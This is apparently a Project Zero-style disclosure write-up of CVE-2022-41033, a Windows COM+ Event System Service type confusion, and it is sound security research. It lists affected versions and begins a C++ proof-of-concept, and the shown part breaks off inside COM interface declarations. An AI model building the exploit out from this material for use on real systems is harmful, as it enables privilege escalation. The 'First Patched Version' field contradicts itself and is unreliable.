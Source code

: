 # CVE-2022-41033: Type confusion in Windows COM+ Event System Service
*James Forshaw, Google Project Zero*

## The Basics

**Disclosure Date:** 11 October 2022

**Product:** Microsoft Windows

**Advisory:**

* Security bulletin: https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-41033

**Affected Versions:** Windows 8.1 through 11 and Windows Server 2012 R2 through 2022, prior to the October 2022 patches. Likely affects versions of Windows prior to 8.1, but that is not acknowledged by the vendor.

**First Patched Version:** Windows 8.1 through 11 and Windows Server 2012 R2 through 2022, prior to the October 2022 patches.

**Issue/Bug Report:** N/A

**Patch CL:** N/A

**Bug-Introducing CL:** N/A

**Reporter(s):** Anonymous

## The Code

**Proof-of-concept:**

```
#include <Windows.h>
#include <Propidl.h>
#include <propvarutil.h>
#include <comdef.h>
#include <Shlwapi.h>
#include <sddl.h>
#include <stdio.h>
#include <string>
#include <vector>

#pragma comment(lib, "Propsys.lib")
#pragma comment(lib, "Shlwapi.lib")

struct IEventSystemTier2;

struct __declspec(uuid("609b9557-4fb6-11d1-9971-00c04fbbb345")) IEventSubscriptionTier2 : public IUnknown {
    virtual HRESULT Store(IEventSystemTier2* p0, PROPVARIANT metadata[18], /* unique */PROPVARIANT* pub_names, /* unique */PROPVARIANT* pub_values, /* unique */PROPVARIANT* sub_names, /* unique */PROPVARIANT* sub_values, BLOB* marshaled_obj, int p7, int p8, int p9) = 0;
    virtual HRESULT Load(IEventSystemTier2* p0, PROPVARIANT p1[18], PROPVARIANT* p2, PROPVARIANT* p3, PROPVARIANT* p4, PROPVARIANT* p5, BLOB* p6) = 0;
};

struct __declspec(uuid("609b954b-4fb6-11d1-9971-00c04fbbb345")) IEventSystemTier2 : public IUnknown {
    virtual HRESULT AddCollectionNotify() = 0;
    virtual HRESULT RemoveCollectionNotify() = 0;
    virtual HRESULT NotifyLogonUser() = 0;
    virtual HRESULT Query() = 0;
    virtual HRESULT ObjectMatchesQuery() = 0;
    virtual HRESULT CreateEventObject() = 0;
```
